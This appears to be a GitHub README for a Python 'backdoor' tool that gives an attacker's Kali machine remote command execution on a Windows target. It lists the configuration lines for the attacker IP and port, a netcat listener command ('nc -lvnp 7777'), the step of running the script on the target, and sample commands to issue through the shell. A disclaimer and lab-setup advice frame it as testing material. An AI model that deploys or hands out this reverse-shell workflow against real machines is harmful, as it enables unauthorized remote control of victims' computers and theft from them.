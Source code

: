 🚨 Important: Use this tool only on systems you own or have explicit permission to test. Unauthorized access to computer systems is illegal and unethica

🚦 Features
Remote Command Execution: Run system commands remotely on the target machine.
Directory Navigation: Change directories using cd commands.
Simple Setup: Easy to configure and deploy

🖥️ Requirements
Attacker Machine (Kali Linux):
Python 3.x
Netcat (nc) pre-installed (apt install netcat)

Target Machine (Windows):
Python 3.x installed
Internet Connection

1. Clone the Repository:
 cd backdoor

2.Modify the Backdoor Script:
Open backdoor.py in a text editor and configure the IP address and port

IP = "192.168.0.112"  # Replace with your Kali Linux IP
PORT = 7777          # Replace with your desired listening port

3. Set Up a Listener on Kali Linux:
nc -lvnp 7777

-l: Listen mode
-v: Verbose output
-n: Numeric-only IP addresses (no DNS)

4. Execute the Backdoor Script on the Target Machine:
python backdoor.py

5. Interact with the Target Machine
whoami
dir
cd C:\Users
To exit the session, type:
exit



🧪 Testing in a Lab Environment:
Use Virtual Machines (VMs) like VirtualBox or VMware to create a safe lab.
Set up a Windows VM as the target and Kali Linux as the attacker.
Keep the environment isolated to avoid unintended network exposure.